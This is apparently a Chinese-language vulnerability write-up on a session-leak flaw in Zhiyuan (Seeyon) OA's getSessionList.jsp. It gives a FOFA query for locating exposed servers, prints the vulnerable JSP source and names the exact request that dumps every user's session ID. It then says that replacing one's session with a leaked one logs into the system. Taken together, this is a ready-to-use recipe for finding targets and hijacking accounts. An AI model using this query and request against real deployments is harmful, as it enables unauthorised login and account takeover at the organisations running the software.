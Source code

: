 # 致远OA getSessionList.jsp Session泄漏漏洞

## 洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 影响版本

未知

## FOFA

```
app="致远互联-OA"
```

## 漏洞复现

出现漏洞的源码

```
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```

从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞

![image-20220520153805805](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201538850.png)

通过替换 Session即可登陆系统